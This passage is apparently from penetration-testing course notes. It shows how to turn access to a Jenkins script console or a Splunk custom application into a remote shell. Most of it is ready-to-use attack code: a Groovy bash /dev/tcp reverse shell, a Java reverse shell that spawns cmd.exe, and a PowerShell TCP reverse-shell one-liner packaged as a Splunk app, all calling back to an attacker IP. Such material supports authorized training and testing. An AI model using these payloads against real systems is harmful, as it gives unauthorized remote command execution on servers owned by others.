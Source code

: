 There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or [this](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) Metasploit module.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

# Infrastructure/Network Monitoring Tools

## Splunk

**Abusing Built-In Functionality**

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure.

```dirtree
- splunk_shell/
	- bin
	- default
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
